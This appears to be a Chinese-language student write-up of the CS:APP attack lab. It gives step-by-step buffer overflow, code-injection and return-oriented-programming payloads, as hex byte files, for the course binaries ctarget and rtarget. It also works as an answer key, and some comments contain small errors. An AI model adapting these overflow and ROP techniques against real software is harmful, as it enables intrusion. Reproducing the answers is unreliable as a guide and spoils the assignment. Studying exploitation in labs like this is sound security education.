





# lab3 attacklab

准备工作：获取2个目标代码的汇编代码：  
objdump -d ctarget > ctarget.s  
objdump -d rtarget > rtarget.s

## phase 1(code injection level1)

要求：在执行完test()中的getbuf()函数后，不是返回到test()中，而是去执行touch1()函数。  

题解：只需要把栈上面的返回地址覆盖成touch1函数的地址004017c0即可。
但因为小端的问题，所以地址要反过来写：c0 17 40 00

可以看到getbuf函数一开始先给栈分配了40个字节的空间，所以需要把这40个字节填满，再写入地址：
(cl1hex.txt的内容)

41 42 43 44 45 46 47 48 49 50  
41 42 43 44 45 46 47 48 49 50  
41 42 43 44 45 46 47 48 49 50  
41 42 43 44 45 46 47 48 49 50 /\* 40个字节 \*/  
c0 17 40 00 /\* touch1()的地址 \*/

运行phase1的操作：  
./hex2raw < cl1hex.txt > cl1raw.txt  
./ctarget -q < cl1raw.txt

## phase2 (code injection ctarget level2)

要求：在执行完test()中的getbuf()函数后，执行touch2()函数，并且需要给touch2()传递一个整型的参数(cookie)

题解：
汇编代码：
sub dif,%rsp #dif还要算, 让rsp指向 touch2的位置
mov 0x59b997fa, %rdi
retq
touch2的地址。
补全40个字节。
返回到 injection code 第一条指令的位置

把栈给画出来即可(注意指令是从下往上执行的，即从地址低的地方 向地址高的地方执行)：

步骤：
1. 把需要用到的命令放在cl2Draft.s中，使用gcc命令编译成目标代码：
gcc -c cl2Draft.s
得到一个目标代码： cl2Draft.o

2. 反汇编 成汇编代码：
objdump -d cl2Draft.o > cl2Binary.s
得到文件 cl2Binary.s

3. 查看cl2Binary.s中的二进制代码
修改并 加入 地址那些内容，写入文件 cl2hex.txt中。得到的内容为：

    48 83 ec 24         	/\* sub $0x24(36),%rsp  让rsp指向touch2的地址的位置 \*/  
    48 c7 c7 fa 97 b9 59 	/\* mov 0x59b997fa,%rdi 给touch2传递参数 \*/  
    c3                   	/\* retq \*/  
    ec 17 40 00 00 00 00 00 /\* 函数touch2的地址 现在这里有20个字节 \*/  
    41 42 43 44 45 46 47 48 49 50   
    41 42 43 44 45 46 47 48 49 50 /\* 刚好40个字节 \*/  
    78 dc 61 55               
    /\* 返回的injection code的地址 也就是 第一行命令"sub    $0x24(36),%rsp"的地址 \*/

4. 把 cl2hex.txt 转换成 cl2raw.txt：
./hex2raw < cl2hex.txt > cl2raw.txt

5. 运行程序：
./ctarget -q < cl2raw.txt

# phase3 (code injection level3)
要求：在执行完test()中的getbuf()函数后，执行touch3()函数，并且需要给touch2()传递一个字符串类型的参数(cookie)

和ctarget level2非常类似，但 需要注意 输入的参数变量(字符串cookie)是字符串类型的，所以需要把它放在栈中，并且需要注意这个字符串不能 被后面执行的函数给覆盖。
而把 cookie放在比rsp的地址 更大的地方，就不会被覆盖。

栈的内容：  

步骤：
1. 把需要用到的命令放在cl3Draft.s中，使用gcc命令编译成目标代码：
gcc -c cl3Draft.s
得到一个目标代码： cl3Draft.o

2. 反汇编 成汇编代码：
objdump -d cl3Draft.o > cl3Binary.s
得到文件 cl3Binary.s

3. 查看cl3Binary.s中的二进制代码
修改并 加入 地址那些内容，写入文件 cl3hex.txt中。内容为：

    48 83 ec 26     /\* sub    $0x26,%rsp  让rsp指向 存放touch3地址的地方 \*/  
    48 8d 7c 24 08  /\* lea    0x8(%rsp),%rdi  
                    rdi存放的 用户输入的 cookie的位置  
                    为了不被后面的代码overwrite，  
                    必须 放在return address(指向touch3的地址)之后 \*/  
    c3              /\* retq \*/  
    fa 18 40 00 00 00 00 00 /\* touch3的地址 \*/  
    35 39 62 39 39 37 66 61 00   
    /\* 9个字节的 字符串类型的 cookie 0x59b997fa  现在有27个字节 \*/  
    41 42 43 44 45 46 47 48 49 50 41 42 43  
    /\* 刚好40个字节 \*/  
    78 dc 61 55   /\* 返回的injection code的地址 也就是第一行命令"sub $0x24(36),%rsp"的地址 \*/

4. 把 cl3hex.txt 转换成 cl3raw.txt：
./hex2raw < cl3hex.txt > cl3raw.txt

5. 运行程序：
./ctarget -q < cl3raw.txt

# phase4 (return-oriented programming level2)

要求：在使用了随机初始栈长度，以及 不能执行栈位置的内容后，使用ROP来调用touch2()函数。
只能使用movq, popq, ret和nop(0x90)指令

题解：
尽管每次 Gets()完之后，rsp的值都不一样的(随机初始栈的长度)，但 如果每次都填满相同的超过40个字节的内容时，返回时它所指向的地址的内容都是 一样的，即：
print /x *(long *) $rsp 都一样。在这个位置放 要使用的代码的 位置即可。

因为栈中不能放 可执行代码，那么只能通过放入 返回地址，去执行我们希望执行的代码。

首先先观察能用的指令表格，以及提供的能够使用的代码段(farm.cpp)，发现能用的popq指令只有一个，也就是popq %rax (0x58)，那这条指令 必定是需要用到的。

其次，因为需要向touch2()函数传递参数，那么movq S,D指令中的 D需要有%rdi，然后观察 它的源，发现 只有movq %rax, %rdi是可用的。

实际上，这2条指令就够用了：
pop %rax #把栈中 cookie的值给rax  这条指令出现在0x4019ab(注意要加上偏移)中
movq %rax, %rdi #把cookie值 传递给rdi   这条指令出现在0x4019c5中
然后调用touch2()函数即可。  0x4017ec

栈的内容：  

1. 编写文件 rl2hex.txt。内容为：
    41 42 43 44 45 46 47 48 49 50  
    41 42 43 44 45 46 47 48 49 50  
    41 42 43 44 45 46 47 48 49 50  
    41 42 43 44 45 46 47 48 49 50 /\* 刚好40个字节 \*/  
    ab 19 40 00 00 00 00 00 /\* pop %rax的地址 \*/  
    fa 97 b9 59 00 00 00 00 /\* cookie的值 \*/  
    c5 19 40 00 00 00 00 00 /\* mov %rax, %rdi的地址 \*/  
    ec 17 40 00 00 00 00 00 /\* touch2的地址 \*/  

2. 把 rl2hex.txt 转换成 rl2raw.txt：
./hex2raw < rl2hex.txt > rl2raw.txt

3. 运行程序：
./rtarget -q < rl2raw.txt

# phase5 (return-oriented programming level3)

要求：在使用了随机初始栈长度，以及 不能执行栈位置的内容后，使用ROP来调用touch3()函数。
这里可以使用movq, popq, ret和nop(0x90)指令。并新增了movl指令 和 一些nop操作的指令。
也能使用farm中出现到的代码。

首先，先观察 新增的指令。
D表格中的指令，明显是在结尾的后缀，前缀是movl里面的指令。
然后一个个搜，发现这些是可以用的：

(黄色部分是没有对应的movl前缀的，不会用到的)
(绿色是既有movq，又有movl的指令)

再观察farm.s中，比较有可能用到的指令是：
4019d6:	lea (%rdi,%rsi,1),%rax

解题思路：要 给rdi传递栈上 cookie的位置，又因为rsp是不断移动的，所以 可以考虑给rdi赋一个初始值(栈的位置在比较高的地方，所以地址是的高32位不能丢，所以必须用movq的指令)，再 通过加上 一个偏移的方法来指向正确的cookie的位置(通过 lea那条指令)。

倒过来推：

最后一步肯定是touch3的位置  
然后是 movq %rax, %rdi #为touch3传递参数  
给rax传值： lea (%rdi, %rsi, 1) %rax  

给rsi传值： movl %ecx, %esi  
给ecx传值： movl %edx, %ecx  
给edx传值： movl %eax, %edx  
给rax传值： popq %rax # 这个就是那个偏移，偏移是固定的，可以计算的  

给rdi传值： movq %rax, %rdi #这里是rdi，刚好可以存的是初始地址(如果是edi就会丢失高32位)  
给rax传值： movq %rsp, %rax #因为栈的位置是很高的位置，所以高32位是不能丢的

栈的内容：  

1. 编写文件 rl3hex.txt。内容为：  
    41 42 43 44 45 46 47 48 49 50  
    41 42 43 44 45 46 47 48 49 50  
    41 42 43 44 45 46 47 48 49 50  
    41 42 43 44 45 46 47 48 49 50 /\* 刚好40个字节 \*/  
    06 1a 40 00 00 00 00 00  
    c5 19 40 00 00 00 00 00  
    ab 19 40 00 00 00 00 00  
    48 00 00 00 00 00 00 00  
    dd 19 40 00 00 00 00 00  
    34 1a 40 00 00 00 00 00  
    27 1a 40 00 00 00 00 00  
    d6 19 40 00 00 00 00 00  
    c5 19 40 00 00 00 00 00  
    fa 18 40 00 00 00 00 00  
    35 39 62 39 39 37 66 61 00  
    /\*   
    movq %rsp, %rax  
    movq %rax, %rdi  
    popq %rax  
    movl %eax, %edx  
    movl %edx, %ecx  
    movl %ecx, %esi  
    lea (%rdi, %rsi, 1),%rax  # %rsi存的是偏移，%rdi存的是rsp2的位置  
    \*/

2. 把 rl3hex.txt 转换成 rl3raw.txt：
./hex2raw < rl3hex.txt > rl3raw.txt

3. 运行程序：
./rtarget -q < rl3raw.txt

